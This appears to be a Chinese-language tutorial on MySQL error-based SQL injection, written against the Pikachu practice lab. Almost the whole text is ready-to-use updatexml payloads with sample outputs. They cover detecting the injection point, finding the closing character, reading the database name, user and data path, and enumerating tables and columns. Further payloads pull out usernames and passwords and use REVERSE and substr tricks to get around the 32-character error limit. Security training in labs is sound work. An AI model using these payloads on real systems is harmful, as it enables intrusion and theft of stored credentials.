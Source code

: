 # 报错注入

---

（本案例使用pikachu靶场）

报错显示限制一般为32位

## 判断注入

```
name='
name=' or 1=1
name=' or 1=2
```

## 判断闭合符

```
看报错信息：自己输入的数据后面接着符号就是闭合符，也可能没有
'' ) 
```

## payload

```
name=' or updatexml(1,concat(0x7e,(注入语句或者函数),0x7e),0) or ' --
```

一般开头符号闭合，后面符号闭合或者注释符（-- ）注释后面语句，本次案例为or ’ 闭合后面

（报错注入查询的结果有限制 使用limit 第n个开始，只显示n个）

## 查询数据库信息

```
name=' or updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),0) or '

出现：（0x7e为~，使用database()查询当前使用的数据库名）如果后面显示不出来就单个单个的查询
XPATH syntax error: '~pikachu~kobe~D:/phpstudy/'
```



## 查询当前数据库的表（找users表）

```
name=' or updatexml(0,concat(0x7e,(select concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1),0x7e),0)  or '   

出现：
XPATH syntax error: '~httpinfo~'
```





## 查询表字段 （找user表的字段）

```
name=' or updatexml(0,concat(0x7e,(select concat(column_name) FROM information_schema.columns WHERE table_name="表名" limit 0,1),0x7e),0)  or '

出现：
XPATH syntax error: '~USER~'
```





## 查询表数据 （找user的用户名和密码）

```
name=' or updatexml(1,concat(0x7e,(select concat(字段名) from 表名 limit 0,1 ),0x7e),0) or '

出现：
XPATH syntax error: '~admin~'
```

## 如果输出的字符太长

```
1.反转（REVERSE（字符串））
' or updatexml(1,concat(0x7e,(select concat(REVERSE(字段名)) from 表名 limit 0,1 ),0x7e),0) or ' 
2.切割（substr(切割字符串,开始位置,切割长度)）
' or updatexml(1,concat(0x7e,(select concat(substr(字段名,5,10)) from 表名 limit 0,1 ),0x7e),0) or ' 


```



